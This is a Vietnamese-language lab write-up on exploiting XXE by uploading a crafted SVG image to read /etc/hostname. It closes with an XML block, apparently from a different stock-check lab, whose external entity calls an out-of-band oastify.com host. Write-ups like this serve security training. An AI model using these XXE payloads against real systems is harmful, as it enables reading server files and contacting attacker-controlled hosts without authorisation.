






# Writeup LAB Exploiting XXE via image file upload

## Goal
To solve the lab, upload an image that displays the contents of the `/etc/hostname` file after processing. 
## Khai thác.
Trang chủ:

Trong bài thực hành trước, chúng ta đã phát hiện ra lỗ hổng tấn công XXE trong tính năng "Kiểm tra kho hàng" , tính năng này phân tích đầu vào XML và trả về bất kỳ giá trị không mong muốn nào trong phản hồi nhưng ở với bài thực hành này có thể xảy ra ở tính năng upload file.

Một số ứng dụng cho phép tải lên tập tin sau đó xử lí định dạng XML hoặc chứa các thành phần con XML. Bằng cách đó nếu hệ thống không xác thực kĩ kẻ tấn công có thể thực hiện tải lên một định dạng kiểu tệp hình ảnh như SVG vì SVG sử dụng XML và hỗ trợ SVG bằng cách đó có thể chèn thuộc tinhs độc hại bên trong và tiến hành upload lên.
Payload: <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#xxe-inside-svg">Tệp SVG Chứa Mã Thực Thi Ở Đây</a>
Tiến hành upload tệp.

Lịch sử HTTP Burp

Chúng ta có thể thấy tệp `hostname` nằm trong hình ảnh tiến hành truy xuất

Submit mã bí mật và hoàn thành LAB


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo[
<!ENTITY % xxe SYSTEM "http://jqdvd0l0bjx78819lbtkgk33ouumic61.oastify.com">
]>
<stockCheck><productId>%xxe;</productId><storeId>1</storeId></stockCheck>
```